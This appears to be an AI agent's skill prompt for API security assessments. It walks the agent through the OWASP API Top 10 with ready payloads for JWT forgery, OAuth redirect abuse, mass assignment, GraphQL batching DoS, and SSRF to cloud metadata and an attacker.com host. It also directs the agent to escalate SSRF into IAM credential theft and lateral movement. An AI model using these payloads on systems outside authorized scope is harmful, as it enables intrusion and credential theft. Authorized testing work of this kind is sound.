

# Deep API Security Assessment

You are an expert API security tester. Your goal: take a discovered API surface and find every authorization gap, data exposure, business-logic abuse, and configuration weakness across REST, GraphQL, gRPC, SOAP, and MCP servers. Produce confirmed PoCs for every working exploit. Always chain findings — a single BOLA that lets you read another tenant's data is interesting; a BOLA that combines with mass assignment to escalate roles cross-tenant is critical.

APIs are not "websites without HTML." They have their own attack surface, their own auth model, their own discovery problems, and their own Top 10. This skill is focused entirely on those API-specific failure modes — for HTML-rendering web vulnerabilities (XSS, SSTI, CSRF, file upload, etc.), chain into `/web-exploit`.

**Request:** $ARGUMENTS

---

## CHAIN COMMITMENTS — DECLARE BEFORE STARTING

Read this before executing any workflow phase. Commit to MANDATORY chains before your first tool call.

| Trigger | Chain | Mandatory? |
| --- | --- | --- |
| After `session(action="complete")` | `/gh-export` | OPTIONAL — user request only |
| Injection points or deep vuln found | `/web-exploit` | **MANDATORY** |
| Architecture review needed | `/threat-modeling` | OPTIONAL |
| CVE-affected dependency confirmed | `/analyze-cve` | OPTIONAL |

> **Invoking a chained skill:** follow the per-client invocation table in the project's CLAUDE.md / AGENTS.md — do not hard-code client-specific syntax here.


## Tools Available

| Tool | Use for |
|------|---------|
| `session(action="start", options={...})` | Define target, scope, depth, and hard limits — **always call this first** |
| `session(action="complete", options={...})` | Mark the scan done and write final notes |
| `kali(command=...)` | Kali tools: kiterunner, ffuf, schemathesis, restler-fuzzer, openapi-fuzzer, graphql-cop, clairvoyance, batchql, inql, jwt_tool, grpcurl, grpcui, sqlmap, nuclei, postman, curl |
| `http(action="request", ...)` | Raw HTTP — manual payload crafting, BOLA enumeration, mass assignment probes, JWT manipulation, PoC verification. Set `poc=True` for confirmed exploits |
| `http(action="save_poc", ...)` | Save a confirmed exploit as a raw `.http` file in `pocs/` |
| `scan(tool="nuclei", ...)` | Template scan for known API CVEs, exposed Swagger docs, default credentials |
| `scan(tool="ffuf", ...)` | Fuzz API paths, version segments, parameter names |
| `scan(tool="spider", ...)` | Crawl HTML pages and JS bundles for embedded API endpoints |
| `report(action="finding", data={...})` | Log a confirmed vulnerability with evidence to findings.json |
| `report(action="diagram", data={...})` | Save a Mermaid diagram (auth flow, exploit chain, data exfil path) to findings.json |
| `report(action="dashboard", data={"port": 7777})` | Serve dashboard.html at localhost:7777 |
| `report(action="note", data={...})` | Write a reasoning note or decision to the session log |


**Logging:** Before invoking any skill above, call `session(action="set_skill", options={"skill":"<name>","reason":"<why>","chained_from":"<this-skill>"})` — this writes the SKILL_CHAIN entry to pentest.log.

---

## Vulnerability Categories — OWASP API Security Top 10 (2023)

| ID | Category | Key Techniques | Primary Tools |
|----|----------|----------------|---------------|
| **API1** | Broken Object Level Authorization (BOLA / IDOR) | Sequential ID enumeration, UUID prediction, encoded ID decoding, cross-tenant access, nested object IDOR, GraphQL node-by-id abuse | `http(action="request", ...)`, `ffuf`, manual scripting |
| **API2** | Broken Authentication | JWT none/key confusion/kid injection, weak signing key brute, credential stuffing, OAuth flow abuse, API key in URL/header leakage, missing token revocation, password reset poisoning | `jwt_tool`, `http(action="request", ...)`, `kali(command=...)` |
| **API3** | Broken Object Property Level Authorization (BOPLA) | Mass assignment (role/isAdmin/balance), excessive data exposure (returning hidden fields), GraphQL field-level auth bypass | `http(action="request", ...)` |
| **API4** | Unrestricted Resource Consumption | Missing rate limits, GraphQL query depth/aliasing/batching DoS, large request bodies, regex DoS, expensive endpoint amplification | `kali(command=...)`, `batchql`, `http(action="request", ...)` |
| **API5** | Broken Function Level Authorization (BFLA) | Admin endpoint access as low-priv user, HTTP verb tampering for privilege escalation, hidden admin paths via JS bundle/spec leak | `http(action="request", ...)`, `ffuf` |
| **API6** | Unrestricted Access to Sensitive Business Flows | Coupon stacking, OTP brute, gift card draining, signup/abuse loops, account scraping, ticket/inventory hoarding | `http(action="request", ...)`, scripted parallel requests |
| **API7** | Server-Side Request Forgery | URL parameter SSRF (webhook, image-proxy, PDF-render, OG-preview, file-import), DNS rebinding, cloud IMDS, internal port scan | `http(action="request", ...)`, `kali(command=...)` |
| **API8** | Security Misconfiguration | Verbose errors, debug endpoints, default creds, missing security headers, open CORS, exposed admin/actuator/swagger UI, unauthenticated metrics | `nuclei`, `http(action="request", ...)` |
| **API9** | Improper Inventory Management | Shadow/zombie endpoints, deprecated v1 still live, staging/dev hosts in prod, undocumented internal APIs, GraphQL introspection in prod | `ffuf`, `kiterunner`, `http(action="request", ...)` |
| **API10** | Unsafe Consumption of APIs | Trusting third-party API responses, no validation of upstream data, server-side processing of attacker-controlled URLs, supply-chain via downstream API | `http(action="request", ...)`, code review via `/codebase` |

---

## Depth Presets

| Depth | What runs | Default limits |
|-------|-----------|----------------|
| `quick` | Spec discovery + auto BOLA enumeration on numeric IDs + basic auth checks | $0.10 | 5 min | 10 calls |
| `standard` | Quick + systematic per-endpoint testing across all 10 categories + JWT analysis + GraphQL introspection | $0.50 | 45 min | 25 calls |
| `thorough` | Standard + cross-tenant tests with two accounts + mass assignment fuzzing + business flow abuse + SSRF + schemathesis/restler-fuzzer property fuzzing + inventory drift comparison | unlimited | unlimited | unlimited |

---

## Workflow

### Before running any tool

If the request does not specify what to test, ask the user:

> **Target:** `<extracted URL>`
> **API type:** `<rest/graphql/grpc/soap/mcp if known>`
>
> **Which assessment depth?**
> - `quick` — spec discovery + BOLA enumeration *($0.10 · 15 min · 10 calls)*
> - `standard` — full Top 10 sweep, single user *($0.50 · 45 min · 25 calls)*
> - `thorough` — Top 10 sweep + two-user cross-tenant tests + property fuzzing + inventory drift *(unlimited)*
>
> Do you have an OpenAPI/Swagger spec, Postman collection, or GraphQL endpoint? Two test accounts (low-priv + high-priv) for BFLA/BOLA cross-checks? Auth tokens?

---

### Phase 0 — Scope & Setup

0. Call `session(action="start", options={...})` with target URL, depth, and limits
1. Call `report(action="dashboard", data={"port": 7777})` — live findings tracker
2. Call `report(action="note", data={...})` — record target, API type, known endpoints, auth state, available test accounts

---

### Phase 1 — API Surface Discovery

The single biggest mistake in API testing is testing only what you were given. Most APIs leak their full surface in 3-5 well-known places — find them ALL before testing anything.

**Step 1a — Spec & doc discovery (always run):**

| Path | What it reveals |
|------|-----------------|
| `/swagger.json`, `/swagger.yaml` | OpenAPI 2.0 spec |
| `/openapi.json`, `/openapi.yaml`, `/v3/api-docs` | OpenAPI 3.x spec |
| `/swagger-ui.html`, `/swagger/`, `/api-docs/`, `/docs/`, `/redoc/` | Interactive doc UIs (often unauthenticated) |
| `/api/swagger`, `/api/v1/swagger`, `/api/v2/swagger` | Versioned spec |
| `/.well-known/openapi`, `/.well-known/api-catalog` | RFC 9727 API catalog |
| `/postman.json`, `/collection.json` | Postman collection export |
| `/graphql`, `/api/graphql`, `/v1/graphql`, `/query` | GraphQL endpoint |
| `/graphiql`, `/playground`, `/altair` | GraphQL IDEs (often unauthenticated) |
| `/grpc`, `/grpc-web`, `/twirp` | gRPC / gRPC-Web / Twirp endpoints |
| `/actuator`, `/actuator/mappings`, `/actuator/env` | Spring Boot Actuator (lists every endpoint) |
| `/_routes`, `/__routes__`, `/api/_routes` | Framework route dumps |
| `/sitemap.xml`, `/robots.txt` | Sometimes lists API paths |

```
http(action="request", url="https://TARGET/swagger.json")
http(action="request", url="https://TARGET/openapi.json")
http(action="request", url="https://TARGET/v3/api-docs")
http(action="request", url="https://TARGET/graphql", method="POST", body='{"query":"{__schema{types{name}}}"}')
http(action="request", url="https://TARGET/actuator/mappings")
```

**Step 1b — JS bundle & HTML scraping:**

Front-end JS often contains the complete API surface as `fetch(...)` and `axios.get(...)` calls. Most production sites also contain hardcoded API base URLs and version numbers.

```
kali(command="curl -sL https://TARGET/ | grep -oE '/(api|v[0-9])/[a-zA-Z0-9_/-]+' | sort -u")
kali(command="curl -sL https://TARGET/main.js https://TARGET/app.js https://TARGET/bundle.js 2>/dev/null | grep -oE '\"/[a-zA-Z0-9_/-]+\"' | sort -u")
```

For SPAs: download every JS bundle linked from the HTML and grep for `fetch(`, `axios.`, `XMLHttpRequest`, `apiBase`, `endpoint:`, `url:`. JS bundles are the #1 source of undocumented endpoints.

**Step 1c — Wordlist-based path fuzzing (kiterunner):**

```
kali(command="kr brute https://TARGET/ -w /usr/share/wordlists/seclists/Discovery/Web-Content/api/api-endpoints.txt -A=apiroutes-220828 -x 10")
```

`kiterunner` is purpose-built for API discovery — unlike ffuf/gobuster it sends method+content-type combinations from a route DB, not just GETs.

Fallback if kiterunner unavailable:
```
scan(tool="ffuf", target="https://TARGET/FUZZ", options={"wordlist": "api-endpoints.txt"})
scan(tool="ffuf", target="https://TARGET/api/v1/FUZZ", options={"wordlist": "api-endpoints.txt"})
scan(tool="ffuf", target="https://TARGET/api/v2/FUZZ", options={"wordlist": "api-endpoints.txt"})
```

**Step 1d — Version drift discovery (API9):**

For every endpoint found at `/api/v2/foo`, also probe `/api/v1/foo`, `/api/v0/foo`, `/api/foo`, `/api/internal/foo`, `/api/staging/foo`, `/api/test/foo`, `/api/legacy/foo`. **Older versions are almost always less hardened** — this is the single most productive gap in modern APIs.

```
http(action="request", url="https://TARGET/api/v1/users/1")
http(action="request", url="https://TARGET/api/v0/users/1")
http(action="request", url="https://TARGET/api/internal/users/1")
```

**Step 1e — GraphQL introspection (MANDATORY — always probe, even when not told):**

**Always probe these paths unconditionally**, regardless of whether GraphQL was mentioned:
```
http(action="request", url="https://TARGET/graphql", method="POST", body='{"query":"{__schema{queryType{name}}}"}')
http(action="request", url="https://TARGET/api/graphql", method="POST", body='{"query":"{__schema{queryType{name}}}"}')
http(action="request", url="https://TARGET/v1/graphql", method="POST", body='{"query":"{__schema{queryType{name}}}"}')
http(action="request", url="https://TARGET/query", method="POST", body='{"query":"{__schema{queryType{name}}}"}')
```

If ANY probe returns a valid GraphQL response (even if introspection is disabled — `{errors:[{message:"..."}]}` is still GraphQL), **IMMEDIATELY register the endpoint in the coverage matrix**:
```
report(action="coverage", data={
  "type": "endpoint",
  "path": "/graphql",
  "method": "POST",
  "params": [{"name": "query", "type": "body_json", "value_hint": ""}, {"name": "variables", "type": "body_json", "value_hint": ""}],
  "discovered_by": "manual_probe",
  "auth_context": "none"
})
```
The coverage system automatically opens an `api-security` trigger gate when a GraphQL endpoint is registered. This gate blocks scan completion until this skill runs.

If introspection is disabled, use clairvoyance for blind schema recovery:
```
kali(command="clairvoyance https://TARGET/graphql -o /tmp/schema.json")
```

**Full introspection query:**
```
http(action="request", url="https://TARGET/graphql", method="POST",
     headers={"Content-Type": "application/json"},
     body='{"query":"query IntrospectionQuery { __schema { queryType { name } mutationType { name } subscriptionType { name } types { ...FullType } directives { name description locations args { ...InputValue } } } } fragment FullType on __Type { kind name description fields(includeDeprecated: true) { name description args { ...InputValue } type { ...TypeRef } isDeprecated deprecationReason } inputFields { ...InputValue } interfaces { ...TypeRef } enumValues(includeDeprecated: true) { name description isDeprecated deprecationReason } possibleTypes { ...TypeRef } } fragment InputValue on __InputValue { name description type { ...TypeRef } defaultValue } fragment TypeRef on __Type { kind name ofType { kind name ofType { kind name ofType { kind name ofType { kind name ofType { kind name ofType { kind name ofType { kind name } } } } } } } }"}')
```

If introspection is disabled (returns "GraphQL introspection is not allowed"):
```
kali(command="clairvoyance https://TARGET/graphql -w /usr/share/wordlists/seclists/Discovery/Web-Content/graphql.txt")
```
`clairvoyance` reconstructs the schema from field-suggestion error messages even when introspection is disabled.

**Step 1e-ii — Query every field on every type (not just what the UI uses).**

The UI is a liar. It filters which fields it renders; the schema doesn't. Once you have the schema, **build a query that selects every scalar field on every object type** and run it. Look especially for fields named:

- `flag`, `secret`, `password`, `password_hash`, `salt`, `mfa_secret`, `recovery_token`, `api_key`, `token`
- `is_admin`, `isAdmin`, `role`, `permissions`, `internal_notes`, `fraud_score`, `risk_score`
- `email`, `phone`, `ssn`, `address`, `credit_card`, `iban` (for PII leaks)
- Any field beginning with `_` or `internal_`

**Step 1e-iii — Try every argument, even undocumented ones.**

GraphQL resolvers often accept arguments the UI never uses:

- Boolean arguments like `is_admin`, `include_deleted`, `show_hidden`, `bypass_filter` are frequent backdoors
- JSON-string arguments parsed via `json.loads()` + `filter(**dict)` are **kwargs-splat NoSQLi** — inject `{"is_admin": true}` or operator injection `{"username__ne": null}`, `{"$gt": ""}`
- Pagination/sort args (`sort=`, `order_by=`, `filter_by=`) often accept raw SQL or ORM field names

Example of kwargs-splat injection (mongoengine):

```graphql
query {
  users(search: "{\"is_admin\": true}") {
    username
    email
  }
}
```

The server does `User.objects.filter(**json.loads(search))` and returns admin rows. The filter happens at the database level, bypassing any application-level "only show non-admins" logic.

**This is the #1 GraphQL exploit pattern** — always look for arguments whose values are parsed as structured data (JSON, YAML, query DSL).

**Step 1f — gRPC reflection (if gRPC endpoint found):**

```
kali(command="grpcurl -plaintext TARGET:443 list")
kali(command="grpcurl -plaintext TARGET:443 list <service>")
kali(command="grpcurl -plaintext TARGET:443 describe <service>.<method>")
```

If reflection is disabled, look for `.proto` files in JS bundles or GitHub repos. Without protos you cannot meaningfully test gRPC — escalate to source code review (`/codebase`) if available.

**Step 1g — Register everything in the coverage matrix:**

```
report(action="coverage", data={
  "type": "endpoint",
  "path": "/api/v2/users/{id}",
  "method": "GET",
  "params": [
    {"name": "id", "type": "path", "value_hint": "integer"}
  ],
  "discovered_by": "openapi-spec",
  "auth_context": "user-token"
})
```

Param type values: `path`, `query`, `body_form`, `body_json`, `header`, `cookie`
Each registration auto-generates BOLA, BFLA, BOPLA, SSRF, injection, and consumption test cells.

Call `report(action="note", data={...})` with total endpoints and cells registered. Always include the **source** of discovery (spec / JS / kiterunner / version drift) so you can prove inventory completeness in the report.

---

### Phase 2 — Authentication & Token Analysis (API2)

Before testing anything else, characterize how the API authenticates. Auth is the foundation — everything downstream depends on it.

**Identify the auth model:**

| Header / Body | Auth model | First test |
|---------------|------------|------------|
| `Authorization: Bearer eyJ...` | JWT | Decode header/payload, run `jwt_tool -t URL -tc Authorization -M at` |
| `Authorization: Bearer <opaque>` | Opaque OAuth/session token | Test entropy, expiration, revocation |
| `Authorization: Basic ...` | HTTP Basic | Test credential stuffing, default creds |
| `X-API-Key: ...`, `apikey=...` | API key | Check for key in URL (logged everywhere), test rate limiting per key |
| `Cookie: session=...` | Cookie session | Test API CSRF, cookie flags, session fixation |
| AWS sig v4 | IAM signing | Check if credentials leak in JS / git |
| `?token=...` (query string) | Token in URL | **Always a finding** — logged in proxies, CDNs, browser history |

**JWT-specific tests (API2):**
1. Decode header — note the `alg` and `kid`
2. **`alg=none` attack** — change `alg` to `none`, strip signature, send: `kali(command="jwt_tool -X a TOKEN")`
3. **HS256 brute-force** — if `alg=HS256`, try common keys (`secret`, `password`, `your-256-bit-secret`): `kali(command="jwt_tool -C -d /usr/share/wordlists/seclists/Passwords/Common-Credentials/10-million-password-list-top-1000000.txt TOKEN")`
4. **RS256→HS256 confusion** — if `alg=RS256`, try re-signing with the public key as HMAC secret: `kali(command="jwt_tool -X k -pk public.pem TOKEN")`
5. **`kid` injection** — if `kid` header exists, try `kid=../../../dev/null`, `kid=' UNION SELECT 'AAAA`, `kid=/tmp/known-file`
6. **`jku`/`jwk`/`x5u` header injection** — try pointing these at attacker-controlled URLs returning a key the attacker holds
7. **Token expiration** — check `exp`, then sleep past it and try reusing — **most APIs do not validate `exp` correctly**
8. **Token revocation** — log out, then try reusing the token
9. **Algorithm confusion via `alg` array** — try `"alg": ["none", "HS256"]`
10. **Embedded JWK** — try adding a `jwk` header with an attacker-generated public key

**OAuth-specific tests (API2):**
1. **`redirect_uri` validation** — try `redirect_uri=https://attacker.com`, `https://target.com.attacker.com`, `https://target.com@attacker.com`, `https://target.com#@attacker.com`, path-relative bypasses
2. **`state` parameter** — verify it exists, is unguessable, and is validated server-side
3. **PKCE downgrade** — if PKCE is used, try omitting `code_verifier`
4. **Implicit flow on confidential clients** — if `response_type=token`, try `response_type=code` and vice versa
5. **Scope escalation** — request `scope=admin` or undocumented scopes during token exchange
6. **Refresh token rotation** — use a refresh token, then try the original one again — should be invalidated

**Generic auth tests:**
1. **Anonymous access** — for every authenticated endpoint, try removing the auth header entirely
2. **Token swap** — use a token from account A on account B's resources
3. **Header injection** — try `X-Original-URL`, `X-Rewrite-URL`, `X-Forwarded-User`, `X-Remote-User`, `X-Auth-User: admin`
4. **Token in URL leakage** — search server logs / proxy logs / Referer headers for tokens

Update each `auth-*` cell in the matrix with results.

---

### Phase 3 — BOLA: Broken Object Level Authorization (API1) — CORE LOOP

**This is the #1 API vulnerability and deserves the most attention.** Every endpoint that takes an object identifier (`id`, `userId`, `accountId`, `orderId`, `documentId`, GraphQL `node(id:)`) must be tested for BOLA.

**Setup — two accounts is mandatory for thorough depth:**
- Account A: low-privilege user, ID `1001`, owns objects `2001, 2002`
- Account B: low-privilege user, ID `1002`, owns objects `2003, 2004`

Without two accounts, you can only detect the weakest BOLA (anonymous access). With two accounts, you can detect cross-tenant access — the bread and butter of API1 findings.

**The BOLA test loop (run for every object-id-bearing endpoint):**

```
For each endpoint with an object ID parameter:
  1. As Account A, fetch own resource — get baseline (200 + own data)
  2. As Account A, fetch Account B's resource ID — should be 403/404, often 200
     → If 200 with B's data: BOLA confirmed
     → If 200 with empty/null data: leaky enumeration (weaker but still report)
  3. As anonymous, fetch the same — should be 401
  4. Test ID format variations:
     - Sequential integers: 1, 2, 3, ..., 9999
     - UUID prediction: collect 10 UUIDs, check for v1 (timestamp+MAC), v4 (random)
     - Encoded IDs: base64-decode, ROT13-decode, hex-decode — sometimes the ID is `eyJpZCI6MTAwMX0=` which decodes to `{"id":1001}`
     - Negative/zero/MAX_INT
  5. Test nested IDOR:
     - GET /users/1001/orders/2003 (where 2003 belongs to user 1002) — many APIs check user-ID matches caller but not whether the order belongs to that user
  6. Test mass-id queries:
     - POST /api/users/batch with {"ids": [1001, 1002, 1003]} — even when single-id is protected, batch endpoints often skip the check
  7. GraphQL node-by-id:
     - { node(id: "VXNlcjoxMDAy") { ... on User { email ssn } } } — base64-decoded global IDs let you address any object regardless of access control
```

**For every confirmed BOLA:**
```
report(action="finding", data={
  "title": "BOLA: Cross-tenant access on /api/v2/users/{id}",
  "severity": "high",
  "target": "https://TARGET/api/v2/users/1002",
  "description": "API1:2023 — Account A (id=1001, role=user) can fetch Account B (id=1002) full profile including email, phone, and PII via GET /api/v2/users/1002 with Account A's bearer token. The endpoint validates the token but does not check whether the requesting user owns the requested object.",
  "evidence": "<raw request and response>",
  "tool_used": "http(action="request", ...)"
})
```

Then `http(action="request", options={"poc": true})` and `http(action="save_poc", ...)` with title `bola-users-cross-tenant`.

---

### Phase 4 — BFLA: Broken Function Level Authorization (API5)

API5 is BOLA's vertical sibling: instead of accessing someone else's object, you access an admin function as a normal user.

**Find admin endpoints from spec / JS / kiterunner:**
- `/admin/*`, `/api/admin/*`, `/internal/*`, `/api/v1/admin/*`
- `/users/{id}/role`, `/users/{id}/permissions`, `/users/{id}/disable`
- `/billing/*`, `/payments/*`, `/refunds/*`
- `/feature-flags/*`, `/config/*`, `/audit-logs/*`

**Test loop:**

| Test | How | Finding if failed |
|------|-----|-------------------|
| Direct access as low-priv | GET /admin/users with user token | BFLA — admin function exposed to non-admin |
| Verb tampering | POST /api/users/1001/role with `{"role":"admin"}` as user 1001 | Self-promotion via verb tampering |
| Method override | `X-HTTP-Method-Override: PUT` on a GET endpoint | Method override bypass |
| Path traversal in params | GET /api/v1/admin/../users/1001 | Routing bypass |
| Trailing slash | /admin vs /admin/ vs //admin | WAF/router inconsistency |
| URL encoding | /%61dmin, /%2561dmin (double-encode) | Filter bypass |
| Case manipulation | /ADMIN, /Admin | Case-sensitive routing bypass |
| Header injection | `X-Forwarded-For: 127.0.0.1`, `X-Real-IP: 10.0.0.1`, `X-Originating-IP: 127.0.0.1` | IP allowlist bypass |
| Force-browse with session tokens from a previous role | Get an admin token via password reset, then try old user token | Token role-binding failure |

For every confirmed BFLA, report immediately.

---

### Phase 5 — BOPLA: Mass Assignment & Excessive Data Exposure (API3)

API3 has two halves. Test both for every object-returning endpoint.

**Mass assignment (write-side):**

For every PATCH/PUT/POST that updates an object, try adding extra fields the spec doesn't list:

```
PATCH /api/v2/users/me
{
  "name": "test",
  "role": "admin",
  "isAdmin": true,
  "is_admin": true,
  "verified": true,
  "email_verified": true,
  "balance": 999999,
  "credit": 999999,
  "permissions": ["*"],
  "tenant_id": "victim-tenant",
  "owner_id": 1
}
```

Then re-fetch the object to see if any of those fields stuck. If yes — mass assignment confirmed. Try the most damaging fields first: `role`, `isAdmin`, `tenant_id`, `verified`, `balance`.

**Mass assignment on authentication endpoints (login, register, password reset).**

Login endpoints are a blind spot — agents treat them as "authentication, not CRUD" and skip the mass-assignment check. That's wrong. The server still does `session[key] = request.form[key]` or `session = User(**request.json)`, and if the attacker controls the key set, they control the session.

Always send the extended field set to login, register, and password-reset endpoints:

```
POST /login
{
  "username": "user",
  "password": "user",
  "role": "admin",
  "isAdmin": true,
  "is_admin": true,
  "is_staff": true,
  "is_superuser": true,
  "tier": "premium",
  "user_type": "admin",
  "verified": true,
  "email_verified": true,
  "mfa_enabled": false,
  "permissions": ["*"],
  "group": "admin"
}
```

After the login, immediately check the session by calling `/profile`, or an admin-only route. If the session reflects any of the injected values, **mass assignment at authentication time is confirmed** — and this is a complete authentication bypass, higher severity than a normal mass assignment.

**Don't follow redirects blindly after login.** Apps often redirect to `/2fa`, `/welcome`, or `/onboarding` after login. The redirect may not be the actual gate. Check whether the final protected resource for example (`/admin/dashboard`, `/admin/users`) is directly reachable with the just-issued session — it frequently is.

**Hidden field discovery via GraphQL introspection:**
If GraphQL is in use, the introspection query already lists every field, including fields the public API never returns. Try selecting them directly: `{ user(id: 1) { internalNotes adminFlags fraudScore } }`.

**Excessive data exposure (read-side):**

For every endpoint that returns an object, check the JSON response for fields that the UI doesn't display:
- `password`, `password_hash`, `salt`, `mfa_secret`, `recovery_token`
- `internal_id`, `tenant_id`, `is_admin`, `permissions`, `roles`
- `created_by_ip`, `last_login_ip`, `risk_score`, `fraud_score`
- Stripe customer IDs, AWS access keys, third-party tokens

The pattern: **the backend returns the full ORM object and the frontend filters; the attacker reads the unfiltered JSON.**

Compare object responses across roles — admin endpoint returns 30 fields, user endpoint returns 5; the user endpoint may still leak admin-only fields.

---

### Phase 6 — Unrestricted Resource Consumption (API4)

| Test | How | Limit if missing |
|------|-----|------------------|
| Per-IP rate limit | Send 100 rapid requests, count throttled responses | < 1 in 100 throttled = no limit |
| Per-token rate limit | Same, with auth token | Same |
| Per-endpoint rate limit | Same on a known-expensive endpoint (search, export, PDF render) | Same |
| Large request body | POST a 10MB JSON body | Server accepts → no body limit |
| Large array fields | POST `{"ids": [1,2,...,1000000]}` | Server processes → unbounded loop |
| Deep JSON nesting | `{"a":{"a":{"a":...100k...}}}` | Stack overflow / parser DoS |
| GraphQL query depth | `{ user { friends { friends { friends { ... 20 deep } } } } }` | No depth limit |
| GraphQL aliasing | `{ a:user(id:1){email} b:user(id:2){email} ... 1000 aliases }` | No alias limit — bypasses per-call rate limits |
| GraphQL batching | `[{query: "..."}, {query: "..."}, ... 1000]` | No batch limit |
| GraphQL field duplication | `{ user { email email email email ... 10000 } }` | Some servers process each duplication |
| Regex DoS | If a search endpoint takes a regex param, send `(a+)+$` against `aaaa...!` | Catastrophic backtracking |
| Expensive endpoint amplification | Find any endpoint that triggers a slow operation (PDF, ZIP, image processing), call it in parallel | DoS |
| OTP/SMS endpoint abuse | Request password reset / SMS code 1000 times for one account | $$$ via SMS provider |

GraphQL-specific:
```
kali(command="batchql -e https://TARGET/graphql")
kali(command="graphql-cop -t https://TARGET/graphql -o json")
```

For every missing limit, report a finding. Resource consumption findings are usually **high** when they cost the target money (SMS, cloud egress, third-party API quota) and **medium** otherwise.

---

### Phase 7 — Sensitive Business Flow Abuse (API6)

API6 is the hardest to find with automation because it requires understanding the *purpose* of the API.

**Common business flows to test:**

| Flow | Abuse pattern |
|------|---------------|
| Signup | Sign up 1000 accounts in parallel — no anti-automation, no email verification |
| OTP login | Brute-force 6-digit OTP — usually no lockout per code, only per phone |
| Coupon redeem | Apply same coupon twice via parallel requests (race condition); apply mutually-exclusive coupons |
| Gift card purchase | Buy with one card, refund, keep the goods |
| Inventory hold | Add 10000 items to cart to deplete stock |
| Voting / polling | Vote 1000 times via parallel requests or by rotating accounts |
| Referral bonus | Self-refer via second account; refer fake accounts in a loop |
| Account scraping | Enumerate all users' public profiles to build a customer list |
| Free trial | Sign up, cancel, sign up with same email + variations (`user+1@`, `user.1@`, `USER@`) |
| Price manipulation | Change `price`, `quantity`, `currency`, `discount` in checkout payloads |
| Negative quantity | Order -5 items → credit appears in account |

The verification logic is "did the business outcome happen N times when it should have happened once?" For each potential abuse, run it in parallel (3-5 requests is enough to detect race conditions; 50+ to detect missing rate limits) and check the resulting state.

---

### Phase 8 — SSRF via API Parameters (API7)

APIs are full of URL parameters: webhooks, image proxies, PDF renders, OG previews, file imports, SAML IdP URLs, OAuth callback URLs. Every one is a potential SSRF.

**Find URL parameters from the spec / discovery:**
- Field names: `url`, `uri`, `webhook`, `callback`, `redirect`, `image`, `avatar`, `logo`, `import`, `source`, `endpoint`, `target`, `link`, `href`
- JSON fields: `{"url": ...}`, `{"webhook_url": ...}`

**Test payloads:**

| Payload | What it tests |
|---------|---------------|
| `http://attacker.com/ssrf-test-<rand>` | Basic SSRF (check attacker logs) |
| `http://127.0.0.1`, `http://localhost` | Localhost access |
| `http://127.0.0.1:22`, `:6379`, `:11211`, `:9200` | Internal port scan (SSH, Redis, Memcached, ES) |
| `http://169.254.169.254/latest/meta-data/` | AWS IMDSv1 |
| `http://169.254.169.254/latest/api/token` (PUT) | AWS IMDSv2 token request |
| `http://metadata.google.internal/computeMetadata/v1/` (with `Metadata-Flavor: Google`) | GCP metadata |
| `http://169.254.169.254/metadata/instance?api-version=2021-02-01` (with `Metadata: true`) | Azure IMDS |
| `gopher://127.0.0.1:6379/_INFO` | Gopher → Redis |
| `file:///etc/passwd` | File scheme |
| `dict://127.0.0.1:11211/stat` | Dict → Memcached |
| `http://127.0.0.1:80%23.attacker.com/`, `http://attacker.com#.target.com/` | Filter bypass |
| DNS rebinding via `2130706433.attacker.com` (resolves to 127.0.0.1) | DNS-based bypass |
| `http://0.0.0.0/`, `http://[::1]/`, `http://0177.0.0.1/` (octal) | Loopback obfuscation |

For blind SSRF, set up a Burp Collaborator or interactsh listener:
```
kali(command="interactsh-client -n 1")
# Then use the generated URL as the SSRF payload
```

For every confirmed SSRF that reaches cloud metadata or internal services, **always escalate** — extract IAM credentials, attempt lateral movement, document the chain.

---

### Phase 9 — Security Misconfiguration (API8)

| Test | How | Finding if failed |
|------|-----|-------------------|
| Verbose errors | Send malformed JSON, malformed auth, unexpected types — check for stack traces, file paths, framework version | Verbose error disclosure |
| Debug endpoints | Probe `/debug`, `/api/debug`, `/__debug__`, `/api/_debug`, `/?debug=1`, `/?_debug=1` | Debug endpoint exposed |
| Default credentials | Try `admin:admin` / `admin:password` on the API auth endpoint | Default credentials |
| Unauthenticated metrics | `/metrics`, `/api/metrics`, `/prometheus`, `/api/health/detail` | Metrics exposure |
| Spring Boot Actuator | `/actuator/env`, `/actuator/heapdump`, `/actuator/mappings`, `/actuator/jolokia` | Actuator misconfiguration (often RCE via Jolokia) |
| Open CORS | `Origin: https://evil.com` → check `Access-Control-Allow-Origin: https://evil.com` + `Allow-Credentials: true` | Open CORS with credentials |
| Missing security headers | Check `X-Content-Type-Options`, `Strict-Transport-Security` | Missing headers |
| Verb tampering on read-only endpoints | Send PUT/PATCH/DELETE to GET endpoints | Verb not enforced |
| HTTP-only when HTTPS expected | Probe `http://TARGET` for the same API paths | Plaintext API |
| Trace method | `OPTIONS *` and `TRACE /` | TRACE enabled (XST) |
| Default API documentation in prod | `/swagger-ui` accessible without auth in prod | Spec exposure |
| Cloud bucket exposure for asset URLs | If API returns S3 URLs, check the buckets for listing | Public bucket |

```
scan(tool="nuclei", target="https://TARGET", options={"templates": "exposures,misconfiguration,default-logins"})
```

---

### Phase 10 — Improper Inventory (API9) & Unsafe Consumption (API10)

**API9 — Inventory drift:**

Compare every endpoint across versions:
- `/api/v1/users/1` vs `/api/v2/users/1` — does v1 still work? Is it less hardened?
- Compare response shapes — does v1 return more fields? Different auth requirements?
- Check `staging.target.com`, `dev.target.com`, `api-test.target.com`, `internal-api.target.com` — same endpoints, less protection?

```
kali(command="for v in v0 v1 v2 v3 internal admin legacy beta test; do echo \"--- $v ---\"; curl -s -o /dev/null -w '%{http_code} ' https://TARGET/api/$v/users/1; done")
```

For every endpoint where the v-1 version returns sensitive data without the auth/hardening of v-N, report a finding citing API9.

**API10 — Unsafe consumption:**

This is hard to test black-box but easy if `/codebase` was run first.
- Look for endpoints that fetch URLs (already covered in Phase 8 SSRF)
- Look for endpoints that import from third-party APIs (Stripe webhooks, GitHub webhooks, OAuth provider responses)
- Test: send malformed/unexpected data from the third-party direction — does the target validate it?
